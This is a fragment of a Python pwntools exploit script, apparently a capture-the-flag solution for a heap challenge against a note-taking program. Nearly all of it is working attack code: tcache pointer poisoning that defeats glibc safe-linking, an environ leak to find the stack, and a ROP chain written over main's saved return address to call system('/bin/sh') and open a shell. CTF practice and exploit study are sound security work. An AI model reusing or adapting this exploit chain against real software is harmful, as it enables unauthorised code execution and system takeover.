 ```python
# Therefore, we want to allocate at a minimum 0x70 before environ! Fortunately, this lines up to end in 0x0 in the address
# So we don't have to worry about alignment issues with malloc :).
######################
allocAddr = libc.symbols["environ"]
allocOffset = 0x70
allocAddr -= allocOffset

# Change the next pointer to point to 0x70 before environ (encrypted of course)
editNote(FREE_INDEX - 2, p64(allocAddr ^ key))

# We want to have a BIG note with 0x70 bytes of random data so we can print out the environ value
payload = b'A'*0x70
addNote(False, b'\n')
addNote(False, payload)

# Get the environ leak with print_note
# This will give us a stack address!
choice(4)
p.sendlineafter(b'Input your index>> ', str(FREE_INDEX - 1).encode())
p.recvuntil(payload)
environLeak = int.from_bytes(p.recv(6), "little")

# Get another key leak to get up to date key!
heapLeak = printNote(6)
decHeapLeak = decryptSafeLinking(heapLeak)
key = heapLeak ^ decHeapLeak

# We want to allocate a block at the saved RIP address of main
stackWriteLoc = environLeak - ENVIRON_TO_RIP_OFFSET 
stackOffset = stackWriteLoc & 0xf
stackWriteLoc -= stackOffset

# Point the next pointer at the saved main RIP address
editNote(6, p64(stackWriteLoc ^ key))
addNote(True, b'\n')

# Create ROP payload
# This will simply give us a shell
binsh = next(libc.search(b"/bin/sh\x00"))

payload  = b'A'*stackOffset
payload += p64(libc.address + libcROP.find_gadget(["pop rdi", "ret"])[0])
payload += p64(binsh)
payload += p64(libc.address + libcROP.find_gadget(["ret"])[0])
payload += p64(libc.symbols["system"])

# Place ROP payload at main saved RIP 
addNote(True, payload)

# Exit the program to detonate our ROP payload
choice(5)

# Should now have a shell!
log.debug(f"{hex(environLeak)=}")
log.debug(f"{hex(areana_leak)=}")
log.debug(f"{hex(libc.address)=}")
log.debug(f"{hex(libc.symbols['environ'])=}")
log.debug(f"{hex(key)=}")
log.debug(f"{hex(libc.symbols['environ'] ^ key)=}")

log.success("Enjoy your shell :)")
p.interactive()
```